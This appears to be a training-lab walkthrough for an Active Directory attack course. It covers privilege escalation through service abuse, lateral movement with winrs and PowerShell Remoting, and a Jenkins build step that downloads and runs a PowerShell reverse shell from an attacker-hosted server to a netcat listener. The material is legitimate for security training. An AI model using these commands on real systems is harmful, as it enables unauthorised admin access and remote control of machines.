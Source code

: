# 05 - Learning Objective

* Exploit a service on dcorp-studentx and elevate privileges to local administrator.
* Identify a machine in the domain where studentx has local administrative access.
* Using privileges of a user on Jenkins on 172.16.3.11:8080, get admin privileges on 172.16.3.11 - the dcorp-ci server.

We can use the **Powerup** from PowerSploit module (or WinPEAS) to check for any privilege escalation path:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\PowerUp.ps1
Invoke-AllChecks
```

Let's use the abuse function for Invoke-ServiceAbuse and add our current domain user to the local Administrators group:

```powershell
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
<# Expected output
ServiceAbused Command
------------- -------
AbyssWebServer net localgroup Administrators dcorp\studentx /add
#>
```

{% hint style="warning" %}
Remember to logoff and logon again to have local administrator privileges!
{% endhint %}

Identify a machine in the domain where studentx has local administrative access use **Find-PSRemotingLocalAdminAccess.ps1**:

```powershell
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```

So, studentx has administrative access on dcorp-adminsrv and on the student machine. We can connect to dcorp-adminsrv using winrs as the student user:

```powershell
winrs -r:dcorp-adminsrv cmd
set username
set computername
hostname
```

We can also use PowerShell Remoting:

```powershell
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
$env:username
hostname
```

In Jenkins console we can add builds using Invoke-PowerShellTcp.ps1 reverse tcp shell hosted using hfs.exe:

```powershell
#1 from attacker client
hfs.exe C:\AD\Tools\Invoke-PowerShellTcp.ps1
C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443
#Remember to add a firewall exception

#From Jenkis console
#Option1
powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.X/Invoke-PowerShellTcp.ps1'));Power -Reverse -IPAddress 172.16.100.X -Port 443
#Option2
powershell.exe iex (iwr http://172.16.100.X/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443
$env:username
$env:computername
ipconfig
```

